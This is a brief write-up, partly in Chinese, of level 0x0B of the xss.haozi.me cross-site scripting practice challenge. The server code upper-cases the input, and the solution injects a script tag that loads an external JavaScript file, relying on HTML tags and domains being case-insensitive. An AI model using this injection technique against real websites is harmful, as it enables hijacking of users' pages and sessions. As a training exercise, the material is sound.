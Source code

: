 # 0x0B

## server code:

```
function render (input) {
  input = input.toUpperCase()
  return `<h1>${input}</h1>`
}
```

## 分析:

```
将输入的数据用toUpperCase进行了大写转换。可以利用html 标签, 域名 不区分大小写的方式来攻克。
1.引用外部链接解决
```

## input code:

```
1. 
<script src="https://xss.haozi.me/j.js"></script>


```

## html:

```
1. <h1><SCRIPT SRC="HTTPS://XSS.HAOZI.ME/J.JS"></SCRIPT>
</h1>
```

![00B](/img/xss/haozi/00B.png)
